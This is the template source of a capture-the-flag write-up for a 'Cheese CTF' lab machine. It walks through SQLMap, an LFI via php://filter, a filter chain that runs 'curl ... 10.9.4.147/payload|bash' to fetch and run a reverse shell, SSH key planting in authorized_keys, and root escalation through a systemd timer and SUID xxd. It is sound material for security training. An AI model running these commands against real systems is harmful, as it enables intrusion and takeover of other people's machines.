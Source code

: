 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("Running an Nmap scan yields a lot, and I mean a lot of open ports. Almost all of them are not meaningful and are there to throw us off.")}}

{{text("Ports that we should focus on are:")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{text("Upon visiting port 80, we are presented with a cheese shop page.")}}

{{image("../../static/images/cheesectf/000002.jpg")}}

{{header("Admin page", "admin-page")}}

{{text("There is also a login page.")}}

{{image("../../static/images/cheesectf/000003.jpg")}}

{{text("We should test if <code class='bg-gray-300 rounded-md px-1'>SQL Injection</code> will work on this form.")}}

{{text("We catch the request using Burp Suite and then try to use it in SQLMap.")}}

{{image("../../static/images/cheesectf/000004.jpg")}}

{{console("sqlmap -r request.txt", "...
got a 302 redirect to 'http://10.10.229.61/secret-script.php?file=supersecretadminpanel.html'. Do you want to follow? [Y/n]
...")}}

{{text("We can see that SQLMap got redirected to <code class='bg-gray-300 rounded-md px-1'>?file=supersecretadminpanel.html</code>. We can try to go to this URL.")}}

{{image("../../static/images/cheesectf/000013.jpg")}}

{{text("We access the admin panel for the website.")}}

{{image("../../static/images/cheesectf/000005.jpg")}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("There is an interesting <code class='bg-gray-300 rounded-md px-1'>?file</code> parameter together with <code class='bg-gray-300 rounded-md px-1'>php://filter</code>.")}}

{{image("../../static/images/cheesectf/000006.jpg")}}

{{text("While trying to read about PHP filters and how to exploit them, I stumbled upon this:")}}

{{link("https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi--rfi-using-wrappers", "https://github.githubassets.com/favicons/favicon.svg", "LFI / RFI using php://filter wrappers")}}

{{text("We are instructed to use a <code class='bg-gray-300 rounded-md px-1'>php filter chain generator</code> to generate a PHP chain, which we could use to achieve RCE.")}}

{{link("https://github.com/synacktiv/php_filter_chain_generator", "https://github.githubassets.com/favicons/favicon.svg", "PHP filter chain generator")}}

{{text("We get the Python file and begin constructing our reverse shell.")}}

{{text("We get a reverse shell from <code class='bg-gray-300 rounded-md px-1'>revshells.com</code> and save it in a file.")}}

{{image("../../static/images/cheesectf/000007.jpg")}}

{{text("We then generate a PHP filter chain that will download our reverse shell and execute it.")}}

{{console("python3 php_filter_chain_generator.py --chain '<?= curl -s -L 10.9.4.147/payload|bash ?>'", "
[+] The following gadget chain will generate the following code : <?= curl -s -L 10.9.4.147/payload|bash ?>
(base64 value: PD89IGBjdXJsIC1zIC1MIDEwLjkuNC4xNDcvcGF5bG9hZHxiYXNoYCA/Pg) php://filter/...")}}

{{text("We set up a netcat listener on the correct port and paste our generated chain into the URL.")}}

{{text("If we did everything correctly, we should now have a reverse shell.")}}

{{image("../../static/images/cheesectf/000008.jpg")}}

{{header("Shell as comte", "shell-as-comte")}}

{{text("While browsing through the files, we go into <code class='bg-gray-300 rounded-md px-1'>/home/comte/.ssh</code> and discover that the <code class='bg-gray-300 rounded-md px-1'>authorized_keys</code> file is writable by us.")}}

{{image("../../static/images/cheesectf/000009.jpg")}}

{{text("We just need to add our SSH key into this file, and we will be able to log in as the <code class='bg-gray-300 rounded-md px-1'>comte</code> user.")}}

{{text("Back on our machine, we generate a set of SSH keys.")}}

{{console("ssh-keygen -t rsa", "Generating public/private rsa key pair.
Enter file in which to save the key (/home/user/.ssh/id_rsa): /home/user/php_filter_chain_generator/id_rsa
Enter passphrase (empty for no passphrase):
...")}}

{{text("We copy our <code class='bg-gray-300 rounded-md px-1'>id_rsa.pub</code> key and paste it into the <code class='bg-gray-300 rounded-md px-1'>authorized_keys</code> file.")}}

{{image("../../static/images/cheesectf/000010.jpg")}}

{{text("We can now log in as user <code class='bg-gray-300 rounded-md px-1'>comte</code> by providing our <code class='bg-gray-300 rounded-md px-1'>id_rsa</code> file.")}}

{{console("ssh comte@10.10.41.67 -i id_rsa", "The authenticity of host '10.10.41.67 (10.10.41.67)' can't be established.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.41.67' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.6 LTS GNU/Linux 5.4.0-174-generic x86_64 ...")}}


{{text("We are able to read the <code class='bg-gray-300 rounded-md px-1'>user.txt</code> flag now.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("Running <code class='bg-gray-300 rounded-md px-1'>sudo -l</code> reveals a lot of useful information.")}}

{{console("sudo -l", "User comte may run the following commands on cheesectf: 
(ALL) NOPASSWD: /bin/systemctl daemon-reload 
(ALL) NOPASSWD: /bin/systemctl restart exploit.timer 
(ALL) NOPASSWD: /bin/systemctl start exploit.timer 
(ALL) NOPASSWD: /bin/systemctl enable exploit.timer")}}

{{text("If we read the <code class='bg-gray-300 rounded-md px-1'>/etc/systemd/system/exploit.service</code> service, we see that it copies <code class='bg-gray-300 rounded-md px-1'>xxd</code> to <code class='bg-gray-300 rounded-md px-1'>/opt</code> and adds a <code class='bg-gray-300 rounded-md px-1'>SUID bit</code> to it.")}}

{{text("If we try to run <code class='bg-gray-300 rounded-md px-1'>exploit.timer</code>, it fails.")}}

{{text("This is because the <code class='bg-gray-300 rounded-md px-1'>OnBootSec</code> value is not present in the file.")}}

{{text("We have to modify it for it to run.")}}

{{image("../../static/images/cheesectf/000011.jpg")}}

{{text("Now, after running the service, a <code class='bg-gray-300 rounded-md px-1'>SUID bit</code> should have been added to the <code class='bg-gray-300 rounded-md px-1'>xxd</code> binary.")}}

{{text("We can use the method from <code class='bg-gray-300 rounded-md px-1'>GTFObins</code> to read the flag.")}}

{{link("https://gtfobins.github.io/gtfobins/xxd/#file-read", "https://gtfobins.github.io/assets/logo.png", "xxd | GTFObins")}}

{{image("../../static/images/cheesectf/000012.jpg")}}

{{script()}}